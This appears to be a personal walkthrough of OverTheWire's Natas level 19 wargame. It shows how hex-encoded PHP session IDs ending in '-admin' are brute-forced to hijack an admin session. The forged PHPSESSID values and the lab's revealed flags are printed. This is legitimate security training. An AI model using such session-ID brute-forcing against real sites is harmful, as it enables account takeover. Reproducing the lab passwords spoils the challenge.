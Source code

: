 # Natas Level 18 → Level 19 Obfuscation ≠ Security

## Previous Flag
<b>tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr</b>

## Goal
Username: natas19<br>
URL: http://natas19.natas.labs.overthewire.org<br>

This page uses mostly the same code as the previous level, but session IDs are no longer sequential...<br><br>
Please login with your admin account to retrieve credentials for natas20.<br>
Username:<br>
Password:<br>
Login

## What I learned
```
Hex-encoding, base64, or anything similar doesn't make something secure if it’s still guessable
PHP session ID is hex-encoded (e.g., 3f6d2a9a) instead of just 34 but still goes to 640
So just need To Hex number and concatenate w/ hex of -admin

TODO Later: Burp Suite Solution (When I get better) 🧠🧠🧠🧠🧠
https://samxia99.medium.com/overthewire-updated-natas-walkthrough-level-20-ed37d1d1e03d
```

## Solution
```
# Put any username and password and get assigned PHPSESSID
F12 → Application
Storage → Cookies

Name        Value
PHPSESSID   3533372d61646d696e

https://gchq.github.io/CyberChef/ ⌨️
From Hex    Input: 3533372d61646d696e
            Output: 537-admin

To Hex      Input: -admin                           # Since front is random hex
            Output: 2d61646d696e                    # Converted to hex

@trungdullc ➜ /workspaces/01noobHacker (main) $ python3 scripts/phpSessionIDBruteForceHex.py ⌨️
PHPSESSID=3237392d61646d696e
PHPSESSID=3238302d61646d696e
PHPSESSID=3238312d61646d696e 👀
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</pre></div> 🔐
</body>
</html>

PHPSESSID=3238322d61646d696e
PHPSESSID=3238332d61646d696e
PHPSESSID=3238342d61646d696e
PHPSESSID=3238352d61646d696e
PHPSESSID=3238362d61646d696e
PHPSESSID=3238372d61646d696e
^C ⌨️

# Double Check by login as admin and any password
F12 → Application
Storage → Cookies

Name        Value
PHPSESSID   <Random> → 3238312d61646d696e
F5 (Refresh)

You are an admin. The credentials for the next level are:
Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw 🔐
```

## Flag
<b>p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</b>

## Continue
[Continue](./Natas1920.md)